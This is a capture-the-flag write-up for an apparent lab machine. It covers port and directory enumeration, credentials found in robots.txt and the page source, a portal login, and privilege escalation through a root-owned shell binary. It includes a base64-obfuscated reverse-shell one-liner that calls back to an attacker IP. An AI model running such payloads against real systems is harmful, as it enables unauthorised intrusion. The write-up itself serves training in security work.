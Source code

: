 # Step 1  - Recognition

First, I use nmap to enumerate opened ports :
```bash
$ nmap <machine_ip>
Starting Nmap 7.93 ( <https://nmap.org> ) at 2024-03-25 19:21 CET
Nmap scan report for 10.10.7.154
Host is up (0.031s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.80 seconds
```

The port 80 is opened as an HTTP server :
![Untitled](assets/screenshot_1.png)

I enumerate subdirectories using gobuster :
```bash
gobuster dir -u <machine_ip> -w common.txt
```

![Untitled](assets/screenshot_2.png)

## Step 2 - Exploit

#### Flag mandatory.txt

I find a file `robot.txt` that contains a Disallow line with the following subdirectory :
- `/1337_53CR37_l41r`
![Untitled](assets/screenshot_3.png)

Here I got a password : `8ES7_SHeLL_Ev4H`. 

Let's search for a username. On the html source-code of the home page, we found this :
![Untitled](assets/screenshot_4.png)

We have credentials : `d4rk_T1t0u4N:8ES7_SHeLL_Ev4H`

We can try to find somewhere to use the credentials by using the same gobuster command and adding a `.php` extension to every subdirectories :
- `gobuster dir -u <machine_ip> -w common.txt -x php` :
![Untitled](assets/screenshot_5.png)

Here we find 2 pages :
- `login.php`
- `portal.php`

On the `portal.php` page we find this :
![Untitled](assets/screenshot_6.png)

The credentials found works on this page. After loging in, I am redirected to this page :
![Untitled](assets/screenshot_7.png)

This page allow us to use an Epitech project named "42sh" which is a shell. We can execute a reverse-shell by using this payload :
- `echo "c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTQuNzYuMC80NDQ0IDA+JjE=" | base64 --decode | bash`

Then we can get the flag mandatory_flag :
![Untitled.png](assets/screenshot_8.png)

#### Flag optional

I see that I am logged in as `www-data`. I can list the users by searching the home directories of the different users :
![Untitled](assets/screenshot_9.png)

I can try to use the same credentials :
```bash
$ su titouan
Password: 8ES7_SHeLL_Ev4H
```

And I finally get the optional flag.
#### Flag bonus

In the home directory of `titouan`, I find the binary `42sh` which is created by the user `root` :
![Untitled](assets/screenshot_10.png)

On the help page of the binary, we can get more details on the shell options by executing the following command `./42sh -c "help set”`:
![Untitled](assets/screenshot_11.png)

I see that I can use the flag `-p` to execute the file using the permission of the owner of the file (which is `root`) :
![Untitled](assets/screenshot_12.png)

Then we can get the root and the final flag with this command :
![Untitled](assets/screenshot_13.png)
